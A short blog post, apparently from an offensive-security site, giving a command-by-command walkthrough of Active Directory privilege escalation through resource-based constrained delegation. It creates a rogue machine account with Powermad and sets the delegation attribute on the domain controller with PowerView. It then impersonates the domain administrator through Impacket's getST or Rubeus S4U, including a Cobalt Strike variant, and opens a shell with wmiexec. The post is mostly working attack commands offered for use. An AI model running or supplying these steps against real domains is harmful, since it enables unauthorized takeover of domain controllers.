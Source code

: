 [back](/)

### Resource-based Constrained Delegation

Each domain user, by default, has permission to add 10 computers to the domain. This fact very often helps when you have GenericAll rights, for example from a user group to a domain controller. Here is a small manual for elevating privileges in a domain.

![Image](/img/rbcd/1.png)

First of all lets get some useful tools:

```
git clone https://github.com/Kevin-Robertson/Powermad
git clone https://github.com/SecureAuthCorp/impacket
git clone https://github.com/GhostPack/Rubeus
wget https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
```

Step-by-step privesc:

```
import-module .\Powermad.ps1
New-MachineAccount -MachineAccount JAKI2 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

import-module .\PowerView.ps1
$ComputerSid = Get-DomainComputer JAKI2 -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer DC | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

getST.py jaki.local/JAKI2 -dc-ip dc.jaki.local -impersonate administrator -spn www/dc.jaki.local
```

![Image](/img/rbcd/2.png)


```
export KRB5CCNAME=administrator.ccache

wmiexec.py dc.jaki.local -k
```

or just use cobalt strike function:

```
execute-assembly /tmp/Rubeus.exe s4u /user:JAKI2 /rc4:32ed87bdb5fdc5e9cba88547376818d4 /impersonateuser:administrator /msdsspn:cifs/dc.jaki.local /ptt
```

![Image](/img/rbcd/3.png)

![Image](/img/rbcd/4.png)

```
cat /tmp/ticket_b64 | sed /^$/d | tr -d '\r\n' | sed -e "s/ //g" | base64 -d > /tmp/ticket

ticketConverter.py /tmp/ticket.kirbi admin.ccache 

export KRB5CCNAME=admin.ccache

wmiexec.py dc.jaki.local -k 
```

Useful links:

+ [PowerShellMafia](https://github.com/PowerShellMafia)
+ [Powermad](https://github.com/Kevin-Robertson/Powermad)
+ [Rubeus](https://github.com/GhostPack/Rubeus)
+ [Impacket](https://github.com/SecureAuthCorp/impacket)
+ [BloodHound](https://github.com/BloodHoundAD/BloodHound)

<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)